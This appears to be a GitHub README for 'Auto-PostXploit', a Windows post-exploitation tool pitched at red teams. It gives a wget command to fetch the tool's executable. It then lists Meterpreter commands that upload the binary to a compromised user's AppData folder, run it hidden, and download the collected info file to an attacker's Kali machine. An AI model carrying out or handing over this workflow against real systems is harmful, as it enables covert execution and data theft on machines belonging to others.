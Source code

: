 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :


  ### wget https://raw.githubusercontent.com/BehzaDMagzer/Auto-PostXploit/master/Auto-PostXploit.exe
 


## Usage :

  
  #### meterpreter > - upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
  #### meterpreter > - execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
  [If Auto-PostXploit.exe Not In Process]
  
  #### meterpreter > - download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
  #### root@kali:~# - cat /root/Desktop/ginfo.txt
